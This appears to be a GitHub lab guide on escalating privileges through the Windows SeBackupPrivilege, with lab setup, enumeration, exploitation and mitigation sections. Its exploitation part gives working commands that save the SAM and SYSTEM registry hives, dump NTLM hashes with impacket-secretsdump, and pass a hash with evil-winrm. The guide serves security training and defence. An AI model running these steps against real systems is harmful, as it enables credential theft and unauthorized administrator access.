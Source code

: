 # SeBackupPrivilege

## Table of Contents

- [SeBackupPrivilege](#SeBackupPrivilege)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

The SeBackupPrivilege is a Windows privilege that provides a user or process with the ability to read files and directories, regardless of the security settings on those objects. This privilege can be used by certain backup programs or processes that require the capability to back up or copy files that would not normally be accessible to the user. 

However, if this privilege is not properly managed or if it is granted to unauthorized users or processes, it can lead to a privilege escalation vulnerability. The SeBackupPrivilege vulnerability can be exploited by malicious actors to gain unauthorized access to sensitive files and data on a system.

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Open a PowerShell with local Administrator privileges and run the following commands to install and import the Carbon module:

```
Install-Module -Name carbon -Force
```

 and 

 ```
 Import-Module carbon
 ```

 2) Use the following cmdlets to grant the SeBackupPrivilege to the current user and verify the privilege:

 ```
 Grant-CPrivilege -Identity nickvourd -Privilege SeBackupPrivilege
 ```

 and

 ```
 Test-CPrivilege -Identity nickvourd -Privilege SeBackupPrivilege
 ```

Outcome:

![SebackupPrivilege-Manual-Setup](/Pictures/SeBackUp-Manual-Setup.png)

### PowerShell Script Lab Setup 

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'SeBackupPrivilege' vulnerability is by using the custom PowerShell script named [SeBackupPrivilege.ps1](/Lab-Setup-Scripts/SeBackupPrivilege.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\SeBackupPrivilege.ps1
```

Outcome:

![SebackupPrivilege-Script-Setup](/Pictures/SeBackUp-Script.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration, you can open a command prompt and use the following command to enumerate the current privileges of the user:

```
whoami /priv
```

Outcome:

![SeBackupPrivilege-Manual-Enumeration](/Pictures/SeBackUp-Manual-Enum.png)

### Tool Enumeration

To run the [SharpUp](https://github.com/GhostPack/SharpUp) tool and perform an enumeration of the `SeBackupPrivilege` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit TokenPrivileges
```

Outcome:

![SeBackupPrivilege-Tool-Enumeration](/Pictures/SeBackUp-Tool-Enum.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) Create a temp directory:

```
mkdir C:\temp
```

2) Copy the sam and system hive of HKLM to C:\temp and then download them.

```
reg save hklm\sam C:\temp\sam.hive
```

and

```
reg save hklm\system C:\temp\system.hive
```

Outcome:

![SeBackupPrivilege-Exploitation-Copy-Hives](/Pictures/SeBackUp-Exploitation-1.png)

3) Use [impacket-secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) tool (Kali Linux Default) and obtain ntlm hashes:

```
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

Outcome:

![SeBackupPrivilege-Exploitation-Observe-NTLM-Hashes](/Pictures/SeBackUp-Exploitation-2.png)

4) Use again evil-winrm to pass the hash and connect as Local Administrator:

```
evil-winrm -i 192.168.146.130 -u "Nikos Vourdas" -H "20117ce437cde2e30f4612c4c82196b0"
```

Outcome:

![SeBackupPrivilege-Exploitation-Evil-WinRM-Pass-The-Hash](/Pictures/SeBackUp-Exploitation-3.png)

## Mitigation

Follow the steps below to remove the `SeBackupPrivilege` from a user:

1) Press Win + R to open the Run dialog, type `secpol.msc`, and hit Enter. This will open the Local Security Policy editor.

2) In the Local Security Policy editor, navigate to **Local Policies** > **User Rights Assignment**.

3) Look for the **Back up files and directories** policy (which corresponds to SeBackupPrivilege).

4) Double-click the policy, and a properties window will appear.

5) In the properties window, you can remove the user or group from the list to revoke the privilege. Click **Apply** and then **OK** to save the changes.

## References

- [Special privileges assigned to new logon Microsoft](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4672)
